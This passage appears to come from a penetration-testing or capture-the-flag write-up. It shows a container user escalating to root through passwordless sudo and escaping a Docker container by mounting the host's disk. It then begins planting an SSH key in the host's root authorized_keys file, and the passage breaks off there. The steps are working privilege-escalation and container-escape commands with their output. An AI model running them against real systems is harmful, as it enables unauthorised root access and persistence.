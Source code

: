 Checking the `sudo` privileges for the `www-data` user inside the container reveals full access:

```jsx
www-data@bb28d5969dd5:/var/www/html$ sudo -l
Matching Defaults entries for www-data on bb28d5969dd5:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on bb28d5969dd5:
    (ALL : ALL) ALL
    (ALL : ALL) NOPASSWD: ALL
```

Escalating to `root` inside the container:

```jsx
www-data@bb28d5969dd5:/var/www/html$ sudo su -
root@bb28d5969dd5:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Next, we inspect the effective capabilities of the container:

```jsx
root@bb28d5969dd5:~# grep CapEff /proc/self/status
CapEff: 000001ffffffffff
```

Decoding this value confirms the container holds many capabilities:

```jsx
$ capsh --decode=000001ffffffffff
0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
```

With these capabilities, there are many ways to escape the container. However, one of the simplest methods would be to mount the host’s root filesystem since we have direct access to the host’s block devices:

```jsx
root@bb28d5969dd5:~# mount /dev/nvme0n1p1 /mnt
root@bb28d5969dd5:~# cat /mnt/etc/hostname
ubuntu-jammy
```

To convert this filesystem access into a shell, we can add an SSH public key to the host’s `/root/.ssh/authorized_keys`. First, generating a key pair:

```jsx
$ ssh-keygen -f id_ed25519 -t ed25519
...
$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB0nYk5JDOsXnmkB8tQOOspf8I5Ubr2sBLtnXUFq4RMP kali@kali
```
